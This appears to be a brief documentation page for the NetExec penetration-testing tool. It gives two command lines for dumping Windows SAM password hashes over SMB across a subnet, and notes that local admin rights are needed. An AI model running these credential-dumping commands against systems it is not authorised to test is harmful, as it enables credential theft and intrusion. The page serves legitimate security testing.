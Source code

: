 # Dump SAM

### Dump SAM hashes using methods from secretsdump.py

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb $TARGET/24 -u $USER -p $PASSWORD --sam
```

If this command fail you can also try the old method (similar to secretdump)

```bash
nxc smb $TARGET/24 -u $USER -p $PASSWORD --sam secdump
```
